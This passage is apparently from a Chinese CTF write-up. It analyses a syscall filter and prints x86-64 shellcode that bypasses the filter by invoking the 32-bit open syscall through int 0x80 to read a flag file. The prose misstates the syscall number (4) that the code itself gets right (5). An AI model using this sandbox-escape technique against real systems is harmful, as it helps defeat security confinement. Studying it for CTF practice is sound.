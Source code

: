 ```
        }
      }
      return 1;
    }
    if ( rax_ >= 2 && rax_ != 3 && rax_ != 5 )
      return 1;
  }
  return 0;
}
```

这里就是过滤系统调用的，其中禁止使用open系统调用的时候参数为flag，除了open其余的系统调用可以按返回值归类一下

1. **return 0：**\_\_NR_lseek、\_\_NR_read 、\_\_NR_write 、\_\_NR_close 、\_\_NR_fstat  、\_\_NR_exit、 \_\_NR_exit_group、\_\_NR_getpid
2. **return regs.rdi > 20：**\_\_NR_alarm
3. **return regs.rsi <= 0x1000：**\_\_NR_munmap、\_\_NR_mprotect 、\_\_NR_mmap
4. **return 1：**open只读，open参数为flag，使用的不是上面列出的系统调用

程序大致逻辑都已经弄懂了，我们需要做的就是使用shellcode绕过open这个限制，我的绕过想法就是使用int  0x80来调用32位的open的系统调用号，在32位系统调用号中open的系统调用号为4，并且4在64位系统调用号中是fstat。在上面的check函数中也可以看到4这个系统调用号是可以使用的并且没有flag字段的限制。通过这个方法我们就可以达到使用open的目的，由于剩下的read和write系统调用都没有限制所以说后面的read和write调用就可以直接使用了，下面的图是对应mmap的参数传入顺序，我最开始第4个参数一直都往ecx里传，导致shellcode打不通，然后查了一下发现mmap的第4个参数使用r10来传

![](first.png)

下面就是第2部分的shelloce：

```
xor    r8,r8
xor    r9,r9
mov    r10,0x32
mov    edx,0x7
mov    esi,0x1000
xor    edi,edi
mov    eax,0x9 
syscall

mov    r12d,eax
mov    rdx,0x67616c66
mov    QWORD PTR [rax],rdx

mov    ebx,eax
xor    ecx,ecx
mov    eax,0x5
int    0x80

xor    edi,edi
xchg   edi,eax
mov    rsi,r12 
mov    edx,0x100
xor    eax,eax
syscall
```